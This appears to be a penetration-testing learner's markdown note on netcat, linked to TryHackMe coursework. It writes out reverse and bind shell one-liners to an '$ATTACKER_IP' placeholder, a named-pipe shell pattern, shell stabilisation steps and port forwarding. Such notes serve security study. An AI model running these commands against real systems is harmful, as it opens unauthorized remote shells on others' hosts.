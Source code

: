 # Using “netcat”

author:: Nathan Acks
date:: 2022-05-10

The netcat binary is *usually* `nc`, but some systems have it at `ncat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn’t have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` — specify the port to listen to
* `-u` — connect using UDP instead of TCP
* `-k` — keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the “unstable” shell, and then using that (keeping the first connection around just so you can restart the “stabilized” shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

## Other Uses

If you just have netcat connect to a service directly, it functions exactly like telnet.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC: Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Using Metasploit](metasploit.md)
* [Using “socat”](socat.md)
* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)
* [2022-03-30 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-03-30-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
* [2022-05-09 - TryHackMe: Jr. Penetration Tester (Supplements)](../log/2022-05-09-tryhackme-jr-penetration-tester-supplements.md)
